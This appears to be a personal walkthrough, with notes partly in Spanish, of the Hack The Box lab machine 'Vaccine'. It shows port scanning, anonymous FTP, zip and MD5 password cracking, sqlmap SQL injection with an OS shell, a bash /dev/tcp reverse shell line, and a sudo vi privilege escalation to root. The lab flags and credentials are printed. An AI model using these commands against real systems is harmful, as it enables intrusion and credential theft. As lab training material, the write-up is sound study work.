 RECON
=====
Initiating NSE at 20:20
Completed NSE at 20:20, 0.00s elapsed
Initiating NSE at 20:20
Completed NSE at 20:20, 0.00s elapsed
Initiating Connect Scan at 20:20
Scanning vaccine (10.129.151.110) [65535 ports]
Discovered open port 21/tcp on 10.129.151.110
Discovered open port 80/tcp on 10.129.151.110
Discovered open port 22/tcp on 10.129.151.110

FTP
===
└─$ telnet vaccine 21       
Trying 10.129.151.110...
Connected to vaccine.
Escape character is '^]'.
220 (vsFTPd 3.0.3)



└─$ ftp vaccine
Connected to vaccine.
220 (vsFTPd 3.0.3)
Name (vaccine:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10071|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10688|)
150 Opening BINARY mode data connectionN for backup.zip (2533 bytes).
100% |*************************************|  2533        1.27 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (20.60 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||10070|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> 



PROTEGIDO POR CONTRASEÑA.
------------------------
┌──(kali㉿kali)-[~/…/hackthebox/TIER2/vaccine/ftp]
└─$   

┌──(kali㉿kali)-[~/…/hackthebox/TIER2/vaccine/ftp]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 


PASSWORD FOUND!!!!: pw == 741852963
                                                                                            
┌──(kali㉿kali)-[~/…/hackthebox/TIER2/vaccine/ftp]



2cb42f8734ea607eefed3b70af13bbd3

La contraseña está en md5

La craqueo aquí y entro al dashboard
qwerty789

http://vaccine/dashboard.php?search=%27

sqlmap --cookie="PHPSESSID=9rrnia5e43noa6nf3cncme332j" -u http://vaccine/dashboard.php?search=1 --dbs

[*] information_schema
[*] pg_catalog
[*] public

SQL_MAP provee de una shell
---------------------------
sqlmap -u http://vaccine/dashboard.php?search=1 --cookie="PHPSESSID=2sqi3gvnj0t7k56rvhsk6dc8v3" --os-shell

Shell inversa mediante /dev/tcp
-------------------------------

bash -c "bash -i >& /dev/tcp/10.10.14.79/443 0>&1"


postgres@vaccine:/var/lib/postgresql$ ls
ls
11
user.txt
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7 <<<<<<<<<<<<<<<<<<<<<<<<
postgres@vaccine:/var/lib/postgresql$ 

uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert) postgres@vaccine:/var/lib/postgresql/11/main$ - 
find / -group ssl-cert 2>/dev/null 
find / -perm /4000 2>/dev/null > lala.txt

find / -perm /4000 2>/dev/null | xargs ls -l > lala.txt

$var/lib/postgresql/11/main$ 



---------------------------- TTY INTERACTIVA ---------------

python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm


-------------------------------------------------------------


└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.79] from (UNKNOWN) [10.129.18.225] 53532
bash: cannot set terminal process group (2870): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
cd /var/www/html
postgres@vaccine:/var/www/html$ cat index.php
cat index.php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>MegaCorp Login</title>
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:400,700" rel="stylesheet"><link rel="stylesheet" href="./style.css">

</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">

  <div class="grid">

    <form action="" method="POST" class="form login">

      <div class="form__field">
        <label for="login__username"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#user"></use></svg><span class="hidden">Username</span></label>
        <input id="login__username" type="text" name="username" class="form__input" placeholder="Username" required>
      </div>

      <div class="form__field">
        <label for="login__password"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#lock"></use></svg><span class="hidden">Password</span></label>
        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
      </div>

      <div class="form__field">
        <input type="submit" value="Sign In">
      </div>

    </form>


  </div>

  <svg xmlns="http://www.w3.org/2000/svg" class="icons"><symbol id="arrow-right" viewBox="0 0 1792 1792"><path d="M1600 960q0 54-37 91l-651 651q-39 37-91 37-51 0-90-37l-75-75q-38-38-38-91t38-91l293-293H245q-52 0-84.5-37.5T128 1024V896q0-53 32.5-90.5T245 768h704L656 474q-38-36-38-90t38-90l75-75q38-38 90-38 53 0 91 38l651 651q37 35 37 90z"/></symbol><symbol id="lock" viewBox="0 0 1792 1792"><path d="M640 768h512V576q0-106-75-181t-181-75-181 75-75 181v192zm832 96v576q0 40-28 68t-68 28H416q-40 0-68-28t-28-68V864q0-40 28-68t68-28h32V576q0-184 132-316t316-132 316 132 132 316v192h32q40 0 68 28t28 68z"/></symbol><symbol id="user" viewBox="0 0 1792 1792"><path d="M1600 1405q0 120-73 189.5t-194 69.5H459q-121 0-194-69.5T192 1405q0-53 3.5-103.5t14-109T236 1084t43-97.5 62-81 85.5-53.5T538 832q9 0 42 21.5t74.5 48 108 48T896 971t133.5-21.5 108-48 74.5-48 42-21.5q61 0 111.5 20t85.5 53.5 62 81 43 97.5 26.5 108.5 14 109 3.5 103.5zm-320-893q0 159-112.5 271.5T896 896 624.5 783.5 512 512t112.5-271.5T896 128t271.5 112.5T1280 512z"/></symbol></svg>

</body>
<!-- partial -->
  
</body>
</html>

----------------------



dashboard.php
-------------

        try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

ssh postgres@ssh 


[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$ 

https://gtfobins.github.io/gtfobins/vi/#sudo




-----------------

$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  

# whoami
root
# ls
11  user.txt
# cd ~
# ls
pg_hba.conf  root.txt  snap
# cat root.txt
dd6e058e814260bc70e9bbdef2715849 <<<<<<<<<<<<<<<<<<<<<<<<<<<<

